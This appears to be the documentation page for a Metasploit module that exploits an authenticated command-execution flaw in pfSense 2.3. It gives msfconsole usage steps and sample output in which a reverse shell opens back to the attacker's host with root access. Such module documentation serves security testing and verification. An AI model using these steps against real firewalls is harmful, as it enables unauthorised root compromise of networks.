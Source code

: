 ## Description

  This module exploits a vulnerability in pfSense version 2.3 and before which allows an authenticated user to execute arbitrary operating system commands 
  as root.

  This module has been tested successfully on version 2.3 RELEASE.


## Vulnerable Application

  This module has been tested successfully on version CE 2.3 amd64.

  Installer:

  * [pfSense CE 2.3](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-CE-2.3-RELEASE-amd64.iso.gz)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/pfsense_group_member_exec`
  3. Do: `set rhost [IP]`
  4. Do: `set username [username]`
  5. Do: `set password [password]`
  6. Do: `exploit`
  7. You should get a session


## Sample Output

```
[*] Processing pfsense.rc for ERB directives.
resource (pfsense.rc)> use exploit/unix/http/pfsense_group_member_exec
resource (pfsense.rc)> set rhost 192.168.2.15
rhost => 192.168.2.15
resource (pfsense.rc)> set verbose true
verbose => true
resource (pfsense.rc)> check
[*] 192.168.2.15:443 The target service is running, but could not be validated.
resource (pfsense.rc)> exploit
[*] Started reverse TCP handler on 192.168.2.147:4444 
[*] CSRF Token for login: sid:e03842f251d3dacb9df81c00a328431580c8fed5,1510715698;ip:ca2fedb3100f0d4d998c9a6a4bb14a624ff904ec,1510715698
[*] Successful Authentication
[+] Login Successful
[*] CSRF Token for group creation: sid:c8b3595aa9e5479086e5ea24f12f737f84dc39a7,1510715698
[*] Command shell session 1 opened (192.168.2.147:4444 -> 192.168.2.15:65499) at 2017-11-14 22:14:58 -0500

whoami
root
uname -a
FreeBSD . 10.3-RELEASE FreeBSD 10.3-RELEASE #6 05adf0a(RELENG_2_3_0): Mon Apr 11 18:52:07 CDT 2016     root@ce23-amd64-builder:/builder/pfsense-230/tmp/obj/builder/pfsense-230/tmp/FreeBSD-src/sys/pfSense  amd64
```
